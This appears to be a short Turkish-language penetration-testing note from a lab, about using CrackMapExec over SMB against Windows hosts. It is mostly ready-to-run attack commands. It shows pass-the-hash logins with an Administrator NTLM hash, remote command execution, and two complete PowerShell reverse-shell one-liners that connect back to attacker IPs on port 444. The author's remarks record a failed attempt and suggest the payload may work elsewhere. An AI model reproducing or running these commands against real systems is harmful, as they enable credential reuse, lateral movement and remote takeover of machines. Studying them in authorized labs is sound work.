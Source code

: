 ```
crackmapexec smb 10.0.2.17 -u Administrator -p "e02bc503339d51f71d913c245d35b50b"
```
```
crackmapexec smb 10.0.2.17 -u Administrator -H "e02bc503339d51f71d913c245d35b50b"
```
>[!bug] Yanlışlıkla hash -H optionu yazacağımıza -p password verince başarısız oldu başlangıçta attack
>
![[Pasted image 20240207224313.png]]


### Şimdi bu şu demek -x "ipconfig" yazarsam direk komutları çalıştırır.
![[Pasted image 20240207224703.png]]
![[Pasted image 20240207233144.png]]
![[Pasted image 20240207233202.png]]

```
crackmapexec smb -d . -u Administrator -p 'pass123' -X "$c = New-Object System.Net.Sockets.TCPClient('192.168.204.190',444);$s = $c.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $d 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$c.Close()" 192.168.204.183

```

```
crackmapexec smb -d . -u Administrator -H "e02bc503339d51f71d913c245d35b50b" -X "$c = New-Object System.Net.Sockets.TCPClient('10.0.2.4',444);$s = $c.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $d 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$c.Close()" 192.168.204.183
```

https://www.infosecmatter.com/rce-on-windows-from-linux-part-2-crackmapexec/
### Denedik Başaramadık ancak bu denenebilir farklı sistemlerde.

## -x   ile -X arasındaki farka dikkat
---
---
---
---





















